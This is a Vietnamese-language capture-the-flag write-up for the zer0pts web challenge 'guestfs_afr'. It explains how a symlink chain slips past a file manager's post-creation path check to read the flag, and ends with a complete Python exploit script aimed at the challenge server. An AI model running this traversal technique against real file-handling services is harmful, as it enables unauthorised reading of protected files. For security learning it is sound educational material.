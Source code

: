 guestfs_afr
===
**Category:** Web

**Author:** ptr-yudai

### Description
- Source: `src.zip`

### Overview
- Một trang web mà chúng ta có thể tạo đọc và xóa file bao gồm symbolic links.
- Tên tệp chỉ được bắt đầu từ 0-9a-zA-Z
- Khi tạo symbolic link thì không được bắt đầu bằng `/` hoặc chứa `...`

### Solution
```php
/* Target file must exist */
            $this->assert_file_exists($this->root.$target);

            /* Create a symbolic link */
            @symlink($target, $this->root.$name);

            /* This check ensures $target points to inside user-space */
            try {
                $this->validate_filepath(@readlink($this->root.$name));
            } catch(Exception $e) {
                /* Revert changes */
                @unlink($this->root.$name);
                throw $e;
            }
```
- Ở đoạn code chương trình kiểm tra target path sau khi symblic được tạo. Điều này được sử dụng để xíu nữa bypass ở target symlink.
- Ý tưởng của bài này sẽ là tạo một symbolic link a->b->c sau đó unlink(c) và symlink("../../flag.txt","a"). Khi chúng ta symlink cho a với `../../flag.txt` thì a đang return về b nên vì vậy nó sẽ không check `..` và `\` hay có thể hiểu là đã bypass được đầu vào. Điều quan trọng là khi symlink cho a nhưng vì a chỉ có thể trỏ đến 1 file nên `../../flag.txt` được đẩy xuống dưới cùng.
- Mô tả: `a->b->c->../../flag.txt`

##### Payload
```py
import re
import requests

url = 'http://web.ctf.zer0pts.com:8001/'
sess = requests.Session()
sess.get(url)

# make a -> b -> c
sess.post(url, data={
  'name': 'c', 'type': '', 'mode': 'create', 'target': '.'
})
sess.post(url, data={
  'name': 'b', 'type': '', 'mode': 'create', 'target': 'c'
})
sess.post(url, data={
  'name': 'a', 'type': '', 'mode': 'create', 'target': 'b'
})

# delete c
sess.post(url, data={
  'name': 'c', 'mode': 'delete'
})

# make symlink('../../../../flag', 'a')
sess.post(url, data={
  'name': 'a', 'type': '', 'mode': 'create', 'target': '../../../../flag'
})

# :)
req = sess.post(url, data={
  'name': 'a', 'mode': 'read'
})
print(req.text)
```